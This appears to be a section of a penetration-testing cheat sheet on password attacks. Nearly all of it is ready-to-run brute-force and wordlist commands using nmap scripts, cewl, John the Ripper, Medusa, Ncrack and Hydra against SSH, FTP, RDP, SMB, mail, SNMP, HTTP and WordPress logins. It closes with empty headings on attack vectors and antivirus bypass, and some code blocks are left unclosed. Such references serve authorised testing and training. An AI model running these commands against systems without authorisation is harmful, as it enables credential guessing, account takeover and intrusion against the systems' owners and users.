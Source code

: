 # Additional

## Password Attacks


### Brute Force

#### Nmap Brute forcing Scripts


#### Nmap Generic auto detect brute force attack:

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# nmap --script brute -Pn <target.com or ip>
A> ~~~

#### MySQL nmap brute force attack:

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# nmap --script=mysql-brute $ip
A> ~~~

### Dictionary Files

#### Word lists on Kali

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# cd /usr/share/wordlists
A> ~~~

### Password Profiling

#### cewl can generate a password list from a web page

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
A> ~~~

### Password Mutating

#### John the ripper can mutate password lists

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# nano /etc/john/john.conf
A> root@linux:~# john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
A> ~~~

### Medusa

#### Medusa, initiated against an htaccess protected web

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
A> ~~~

### Ncrack

#### ncrack (from the makers of nmap) can brute force RDP

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# ncrack -vv --user offsec -P password-file.txt rdp://$ip
A> ~~~


### Hydra

#### Hydra brute force against SNMP

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -P password-file.txt -v $ip snmp
A> ~~~

#### Hydra FTP known user and rockyou password list

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
A> ~~~

#### Hydra SSH using list of users and passwords

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
A> ~~~

#### Hydra SSH using a known password and a username list

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh
A> ~~~

#### Hydra SSH Against Known username on port 22

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt
A> ~~~~

#### Hydra POP3 Brute Force

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V
A> ~~~

#### Hydra SMTP Brute Force

A> {line-numbers=off,lang=console}
A> ~~~
A>  root@linux:~# hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
A> 

 #### Hydra attack http get 401 login with a dictionary

A> {line-numbers=on,lang=console}
A> ~~~
root@linux:~# hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin


#### Hydra attack Windows Remote Desktop with rockyou

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
A> ~~~

#### Hydra brute force SMB user with rockyou:

A> {line-numbers=on,lang=console}
A> ~~~
A> root@linux:~# hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb
A> ~~~

#### Hydra brute force a Wordpress admin login

A> {line-numbers=off,lang=console}
A> ~~~
A> root@linux:~# hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
A> ~~~










## Attack Vectors



## Bypassing Antivirus Software



